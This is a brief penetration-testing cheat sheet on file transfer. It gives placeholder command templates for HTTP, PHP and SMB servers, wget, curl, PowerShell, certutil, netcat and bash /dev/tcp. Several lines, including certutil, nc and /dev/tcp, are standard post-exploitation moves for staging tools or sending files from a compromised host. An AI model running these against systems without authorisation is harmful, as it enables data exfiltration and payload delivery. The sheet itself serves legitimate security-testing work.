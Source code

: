 # File Transfer

{% hint style="info" %}
You can always check the integrity of the files using `md5sum` to ensure they were transferred successfully.
{% endhint %}

## HTTP/PHP

### Python3

```bash
python3 -m http.server <port>
```

### Python2

```bash
python2 -m SimpleHTTPServer <port>
```

### PHP

```bash
php -S 0.0.0.0:<port>
```

### Download

#### Wget

```bash
wget <url>
```

#### Curl

```bash
curl -s <url> -o <output>
```

#### PowerShell

```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <output>
```

#### Batch

```batch
certutil -urlcache -split -f <url> <output>
```

## SMB

### SMB Server

```bash
smbserver.py <share> $(pwd) -smb2support
```

### Download

#### Linux

```bash
smbclient //<ip>/<share> -c "get <file> <output>"
```

#### Windows

```batch
copy \\<ip>\<share>\<file> <output>
```

## Ncat

### Send

```bash
nc -nlvp <port> < <file>
```

### Recieve

```bash
nc -nlvp <port> > <output>
```

## Bash

### Send

```bash
cat <file> > /dev/tcp/<ip>/<port>
```

### Recieve

```bash
cat < /dev/tcp/<target>/<port> > <output>
```
